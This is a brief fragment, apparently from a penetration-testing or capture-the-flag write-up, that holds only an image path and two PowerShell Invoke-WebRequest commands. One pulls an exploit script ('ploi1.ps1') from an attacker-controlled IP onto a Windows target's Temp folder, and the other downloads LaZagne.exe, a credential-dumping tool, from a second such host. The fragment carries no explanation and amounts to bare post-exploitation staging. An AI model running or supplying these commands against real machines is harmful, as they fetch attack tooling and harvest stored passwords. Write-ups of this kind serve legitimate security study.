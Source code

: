 
```
Invoke-WebRequest "http://10.10.15.168:8080/ploi1.ps1" -OutFile "C:\Windows\Temp\ploit.ps1"  
```


Invoke-WebRequest "http://10.10.15.216:8081/LaZagne.exe" -OutFile "C:\Windows\Temp\LaZagne.exe" 